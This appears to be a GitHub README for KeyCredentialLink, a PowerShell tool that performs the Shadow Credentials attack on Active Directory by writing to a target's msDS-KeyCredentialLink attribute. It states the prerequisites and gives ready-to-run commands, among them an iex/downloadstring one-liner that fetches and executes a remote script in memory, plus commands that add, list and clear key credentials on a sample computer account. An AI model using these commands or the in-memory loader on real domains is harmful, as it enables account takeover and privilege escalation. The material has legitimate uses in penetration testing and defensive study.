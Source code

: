 # KeyCredentialLink
Add Shadow Credentials to a target object by editing their msDS-KeyCredentialLink attribute

This tool is heavily inspired to [Whisker](https://github.com/eladshamir/Whisker) by Elad Shamir ([@elad_shamir](https://twitter.com/elad_shamir)).

This tool is based on code from [DSInternals](https://github.com/MichaelGrafnetter/DSInternals) by Michael Grafnetter ([@MGrafnetter](https://twitter.com/MGrafnetter)).

For this attack to succeed, the environment must have a Domain Controller running at least Windows Server 2016, and the Domain Controller must have a server authentication certificate to allow for PKINIT Kerberos authentication.

Also, you need the necessary rights to edit the msDS-KeyCredentialLink attribute of the specified target.

More details are available at the post [Shadow Credentials: Abusing Key Trust Account Mapping for Takeover](https://posts.specterops.io/shadow-credentials-abusing-key-trust-account-mapping-for-takeover-8ee1a53566ab).

## Usage
### Load the tool in memory
```
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/Leo4j/KeyCredentialLink/main/KeyCredentialLink.ps1')
```

### List all the values of the the msDS-KeyCredentialLink attribute of a target object
```
List-KeyCredentials -target "ABUSECOMP$" -domain "ferrari.local" -dc "dc01.ferrari.local"
```

### Add a new value to the msDS-KeyCredentialLink attribute of a target object
```
Add-KeyCredentials -target "ABUSECOMP$" -domain "ferrari.local" -dc "dc01.ferrari.local"
```

### Remove a value from the msDS-KeyCredentialLink attribute of a target object
```
Clear-KeyCredentials -target "ABUSECOMP$" -domain "ferrari.local" -dc "dc01.ferrari.local" -deviceId "<deviceID>"
```

### Clear all the values of the the msDS-KeyCredentialLink attribute of a target object
```
Clear-KeyCredentials -target "ABUSECOMP$" -domain "ferrari.local" -dc "dc01.ferrari.local" -Force
```
⚠️ Warning: Clearing all keys from msDS-KeyCredentialLink is a risky operation, as it will break legitimate passwordless authentication.

![KeyCred](https://github.com/Leo4j/KeyCredentialLink/assets/61951374/ac20fa27-80db-4bc7-a73f-ae265ea7cb0e)


